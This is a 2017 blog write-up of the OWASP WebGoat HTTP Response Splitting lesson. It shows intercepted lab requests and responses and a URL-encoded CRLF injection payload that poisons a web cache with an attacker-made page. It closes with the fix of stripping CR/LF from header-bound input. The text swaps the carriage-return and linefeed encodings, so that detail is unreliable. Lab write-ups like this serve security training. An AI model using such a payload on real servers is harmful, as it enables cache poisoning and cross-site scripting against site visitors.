 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 1"
date:   2017-01-24 00:50:00 -0500
categories: coding security owasp bwa
---
```

# WebGoat Part 1: HTTP Response Splitting
The first section of WebGoat is called "General", but the main topic covered is HTTP Response Splitting. HTTP Response splitting is an attack that can be performed on a webserver that does not properly implement sanitization of user input on webpage forms. The specific exploitation that can be performed involves the use of carriage returns (%0a in HTML) and linefeeds (%0d in HTML). 

Normally, form entry is passed in a webpage's (client control) request to the webserver. The form fields are then appended onto the request header like so:

```
GET http://website.com/form_page?form1=field1&form2=field2 HTTP/1.1
<Rest of the request>
```

So, we can control part of the request with header data that we enter into our forms. This might not seem immediately malicious, but let's take a look at the WebGoat example:

```
POST /WebGoat/lessons/General/redirect.jsp?Screen=3&menu=100 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&language=test
Cookie: JSESSIONID=30084DBD49F5F0CA28D74331EC271DB8; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

language=test&SUBMIT=Search%21
```

So in our form we simply entered "test". The POST request URL looks like we are going to be redirected to another resource on the webserver. Let's look at the server response and see what the next step is going to be:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Type: text/html;charset=ISO-8859-1
Content-Length: 0
Via: 1.1 127.0.1.1
Vary: Accept-Encoding
Connection: close
```

Alright, so we are being redirected to the location specified by the 'Location' header in the response. Or more clearly:

```
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
```

Aha! One thing should pop out at us here, and that is the fact that our form input ("test") is found sitting right at the end of the Location header. Now while this request takes us to the page intended by the server, we can manipulate this behaviour by abusing the HTML parsing mechanism, or the webcache.

The webcache sits between the user and the webapplication, parsing responses from the webapplication to hand back to users. The exploit that we are abusing lies in tricking the webcache to hand back two responses from a single request. If we are allowed to insert carriage return (%0a) and linefeed (%0d) characters into our request, when the webcache handles the redirect response we can trick it into thinking that there should be two responses by truncating the original response and adding another completely attacker-controlled response to the webcache.

An example form exploit input could be like so (%20 is a URL-encoded space):

```
test%0aContent-Length:%200%0a%0aHTTP/1.1%20200%20OK%0aContent-Type:%20text/html%0aContent-Length:%2017%0a<html>pwnd</html>
```

The first section truncates the original intended response by specifying a false Content-Length header. URL-decoded, the redirect response now looks like so:

```
HTTP/1.1 302 Moved Temporarily
Date: Tue, 24 Jan 2017 02:35:59 GMT
Server: Apache-Coyote/1.1
Location: http://192.168.56.101/WebGoat/attack?Screen=3&menu=100&fromRedirect=yes&language=test
Content-Length: 0
```

The response is considered complete at this point. However, we have appended some extra data, that URL-decoded looks like so:

```
HTTP/1.1 200 OK
Content-Type:text/html
Content-Length: 17
<html>pwnd</html>
```

Now, the webcache only saw one request sent to the webserver by us (the attacker). Therefore our redirect is handled normally and we are served the cached response, which is the redirect to the location specified in the Location header. However, if we immediately ask for the resource again the webserver will match this new request with the second malicious response and cache the malicious response as the proper response for the requested resource. Now all subsequent requests for the resource will be served the malicious response that we crafted.

![pwnd][success]

This can be much more serious than a simple defacement like we performed here. Alternatively, an attacker could append JavaScript to perform cross-site scripting attacks to steal cookies or other sensitive user data. In order to prevent this attack, any user-controlled data that can end up in a request header needs to be sanitized to prevent insertion of carriage-return and linefeed characters.

[success]:https://github.com/spencerdodd/spencerdodd.github.io/blob/master/images/http-response-splitting.jpg